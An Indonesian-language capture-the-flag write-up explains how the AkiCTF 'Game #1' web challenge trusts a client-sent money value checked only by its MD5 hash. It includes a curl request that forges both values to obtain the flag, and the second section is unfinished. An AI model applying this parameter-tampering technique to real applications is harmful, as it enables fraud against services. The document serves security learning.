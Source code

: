 ```yaml
---
layout: post
title: "Writeup AkiCTF"
description: "Writeup AkiCTF"
headline: 
modified: 2016-11-09
imagefeature: 
mathjax: 
chart: 
category: Web Exploitation
tags: [AkiCTF]
comments: true
featured: false
---
```


## Writeup AkiCTF

ini sebenernya ctf yang udah lama kayaknya ini mulai pas tahun 2013, tapi 
challenge nya menurut gw masih legit buat di cobain link nya di sini [AkiCTF](http://ctf.katsudon.org/)


### Game #1 - 70 Points

Deskripsi soal nya gak ada sama sekali, kita cuma di kasih link [q6.ctf](http://q6.ctf.katsudon.org)

Dari website nya kita bisa liat di situ ada game RPS(rock, papper,scissor) dan di bagian bawahnya ada 
rangking yang kalau sepertinya kalau duit kita cukup untuk beli ranking nya flagnya bakal muncul

view pagesource nya kita bisa liat di situ ada kode javascript berikut :

``` javascript 

<script>
    $(function() {
        var d = $("#h"),     // id h 
            c = $("#money"), // duit kita diambil dari sini
            b = $("#message"); // id message 
        
        $("#jankenForm").submit(function() { // kalau form RPS nya kita submit
            0 < c.text() && $.post("/janken", { // kirim post 
                h: d.val(), // parameter h di ambil dari variable d.val()
                money: c.text() // parameter money di ambil dari c.text
            }).done(function(a) { 
                a.error ? b.text("error") : (d.val(a.h), c.text(a.money), b.text(a.message))
            }).fail(function() {
                b.text("Oops... Try again later.")
            });
            return !1
        });
        
        $("#registerForm").submit(function() {
            $.post("/register", {
                h: d.val(),
                money: c.text()
            }).done(function(a) {
                a.error ? b.text("error") : b.text(a.message)
            }).fail(function() {
                b.text("Oops... Try again later.")
            });
            return !1
        })
    });
</script>
```

kalau kita liat javascriptnya dia kan ambil money langsung dari #money tapi kalau kita ganti
misalnya inspect element jadi 99999999 terus kita coba register bakal output nya jadi error
kenapa? karena pas di post ada 2 parameter yang di lempar selain parameter money, yaitu parameter h 

isi variable h adalah md5 `d3d9446802a44259755d38e6d163e820 = 10` jadi yang di kirim di parameter h adalah
hash md5 dari money yang nanti bakal di validasi lagi di server nya jadi untuk ngecoh validasinya
kita modifikasi #money sama value dari h

jadi kita bisa langsung kirim ke register dan atur duitnya sesuka kita : 
`curl 'http://q6.ctf.katsudon.org/register' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' --data 'h=c8c605999f3d8352d7bb792cf3fdb25b&money=999999999' --compressed`

flag bakal muncul di response nya 
`{"message":"Congrats! The flag is "XXXXXXXXX"."}`



### From login form - 120 Points

To be continue,